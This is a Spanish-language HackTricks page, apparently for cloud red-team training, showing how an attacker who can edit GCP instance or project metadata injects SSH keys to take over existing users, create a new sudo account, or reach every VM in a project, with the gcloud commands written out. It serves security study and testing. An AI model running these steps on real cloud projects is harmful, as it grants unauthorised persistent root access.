 # GCP - Agregar Metadatos SSH Personalizados

## GCP - Agregar Metadatos SSH Personalizados

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

### Modificando los metadatos <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modificación de metadatos en una instancia podría llevar a **riesgos de seguridad significativos si un atacante obtiene los permisos necesarios**.

#### **Incorporación de Claves SSH en Metadatos Personalizados**

En GCP, **los sistemas Linux** a menudo ejecutan scripts desde el [Entorno de Invitado de Python para Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un componente crítico de esto es el [demonio de cuentas](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), que está diseñado para **verificar regularmente** el punto final de metadatos de la instancia en busca de **actualizaciones a las claves públicas SSH autorizadas**.

Por lo tanto, si un atacante puede modificar los metadatos personalizados, podría hacer que el demonio encuentre una nueva clave pública, que será procesada e **integrada en el sistema local**. La clave se añadirá al archivo `~/.ssh/authorized_keys` de un **usuario existente o potencialmente creando un nuevo usuario con privilegios `sudo`**, dependiendo del formato de la clave. Y el atacante podrá comprometer el host.

#### **Agregar clave SSH a un usuario privilegiado existente**

1. **Examinar Claves SSH Existentes en la Instancia:**
*   Ejecuta el comando para describir la instancia y sus metadatos para localizar las claves SSH existentes. La sección relevante en la salida estará bajo `metadata`, específicamente la clave `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Presta atención al formato de las claves SSH: el nombre de usuario precede a la clave, separado por dos puntos.
2. **Preparar un Archivo de Texto para Metadatos de Clave SSH:**
* Guarda los detalles de los nombres de usuario y sus correspondientes claves SSH en un archivo de texto llamado `meta.txt`. Esto es esencial para preservar las claves existentes mientras se añaden nuevas.
3. **Generar una Nueva Clave SSH para el Usuario Objetivo (`alice` en este ejemplo):**
*   Usa el comando `ssh-keygen` para generar una nueva clave SSH, asegurándote de que el campo de comentario (`-C`) coincida con el nombre de usuario objetivo.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Añade la nueva clave pública a `meta.txt`, imitando el formato encontrado en los metadatos de la instancia.
4. **Actualizar los Metadatos de Clave SSH de la Instancia:**
*   Aplica los metadatos de clave SSH actualizados a la instancia usando el comando `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Acceder a la Instancia Usando la Nueva Clave SSH:**
*   Conéctate a la instancia con SSH usando la nueva clave, accediendo a la shell en el contexto del usuario objetivo (`alice` en este ejemplo).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Crear un nuevo usuario privilegiado y agregar una clave SSH**

Si no se encuentra un usuario interesante, es posible crear uno nuevo que se le otorgarán privilegios `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Claves SSH a nivel de proyecto <a href="#sshing-around" id="sshing-around"></a>

Es posible ampliar el alcance del acceso SSH a múltiples Máquinas Virtuales (VMs) en un entorno de nube al **aplicar claves SSH a nivel de proyecto**. Este enfoque permite el acceso SSH a cualquier instancia dentro del proyecto que no haya bloqueado explícitamente las claves SSH a nivel de proyecto. Aquí hay una guía resumida:

1. **Aplicar Claves SSH a Nivel de Proyecto:**
*   Utiliza el comando `gcloud compute project-info add-metadata` para agregar claves SSH desde `meta.txt` a los metadatos del proyecto. Esta acción asegura que las claves SSH sean reconocidas en todas las VMs del proyecto, a menos que una VM tenga habilitada la opción "Bloquear claves SSH a nivel de proyecto".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH en Instancias Usando Claves a Nivel de Proyecto:**
* Con las claves SSH a nivel de proyecto en su lugar, puedes SSH en cualquier instancia dentro del proyecto. Las instancias que no bloquean las claves a nivel de proyecto aceptarán la clave SSH, otorgando acceso.
* Un método directo para SSH en una instancia es usar el comando `gcloud compute ssh [INSTANCE]`. Este comando utiliza tu nombre de usuario actual y las claves SSH establecidas a nivel de proyecto para intentar el acceso.

## Referencias

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
